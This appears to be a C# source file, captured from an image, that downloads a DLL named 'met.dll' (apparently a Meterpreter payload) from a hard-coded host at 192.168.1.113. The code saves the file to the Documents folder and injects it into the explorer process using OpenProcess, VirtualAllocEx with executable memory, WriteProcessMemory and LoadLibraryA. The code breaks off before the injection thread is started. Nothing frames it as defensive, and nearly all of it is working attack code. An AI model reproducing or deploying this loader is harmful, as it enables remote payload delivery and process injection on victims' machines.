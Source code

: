 ```csharp
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]

        public static extern IntPtr GetModuleHandle(string lpModuleName); 

        static readonly HttpClient client = new HttpClient();

        static async Task Main()

        {

            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);

            String dllName = dir + "\\met.dll";

            try

            {

                HttpResponseMessage response = await client.GetAsync("http://192.168.1.113/met.dll");

                if (response.IsSuccessStatusCode)

                {

                    using (var fs = new FileStream(dllName, FileMode.Create, FileAccess.Write, FileShare.None))

                    {

                        await response.Content.CopyToAsync(fs);

                    }

                }

            }

            catch (HttpRequestException e)

            {
                Console.WriteLine("Exception Caught!");
                Console.WriteLine($"Message: {e.Message}");
            }


            Process[] expProc = Process.GetProcessesByName("explorer");

            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            IntPtr outSize;

            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

```